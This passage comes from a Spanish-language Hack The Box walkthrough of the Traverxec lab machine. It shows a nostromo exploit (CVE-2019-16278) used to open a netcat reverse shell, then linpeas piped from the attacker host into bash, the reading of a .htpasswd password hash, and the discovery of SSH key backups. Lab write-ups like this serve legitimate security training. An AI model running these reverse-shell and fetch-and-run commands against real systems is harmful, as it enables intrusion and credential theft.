 Primero, debemos iniciar netcat para tener un listener en el puerto 4444 e iniciar una shell reversa una vez que ejecutemos el script. Para esto, escribimos en la consola `nc -lvp 4444`. 

Ahora, para ejecutar el exploit anterior, escribimos el siguiente comando `python cve-2019-16278.py traverxec.htb 80 "nc 10.10.14.21 4444 -e /bin/sh"`

Una vez ejecutado el comando anterior, ya debemos tener la shell reversa con netcat como se puede observar en el siguiente código

```bash
┌─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
connect to [10.10.14.21] from traverxec.htb [10.10.10.165] 47300
whoami
www-data
```

Para tener una shell más interactiva y más fácil de navegar dentro del la máquina de nuestro objetivo, usamos el comando `python -c 'import pty; pty.spawn("/bin/bash")'`.

Con el fin de realizar la fase de enumeración de una manera más ágil, descargamos [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para buscar posibles archivos y directorios donde encontramos información de utilidad.

Para transmitir el contenido del archivo `linpeas.sh` usamos el siguiente comando

```bash
┌─[✗]─[nicolasmira101@parrot]─[~/Documents/Hack-the-box/Maquinas/Traverxec]
└──╼ $nc -lvnp 9001 < linpeas.sh
listening on [any] 9001 ...
```

Y en la máquina objetivo nos conectamos a nuestra máquina por el puerto establecido anteriormente, en este caso el puerto 9001 

```bash
www-data@traverxec:/tmp$ nc 10.10.14.21 9001 | bash
```

Revisando todo lo que nos arroja `Linpeas` encontramos información relevante en el archivo `nhttpd.conf` y una contraseña en el archivo `.htpasswd`.

```bash
-rw-r--r-- 1 root bin 498 Oct 25  2019 /var/nostromo/conf/nhttpd.conf
Reading /var/nostromo/conf/nhttpd.conf
serveradmin             david@traverxec.htb        
htpasswd                /var/nostromo/conf/.htpasswd 
homedirs                /home
homedirs_public         public_www

-rw-r--r-- 1 root bin 41 Oct 25  2019 /var/nostromo/conf/.htpasswd
Reading /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Ahora nos dirigimos al directorio `home/david/public_www` y encontramos lo siguiente

```bash
www-data@traverxec:/home/david/public_www$ ls
index.html  protected-file-area
www-data@traverxec:/home/david/public_www$ cd protected-file-area
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
backup-ssh-identity-files.tgz
```
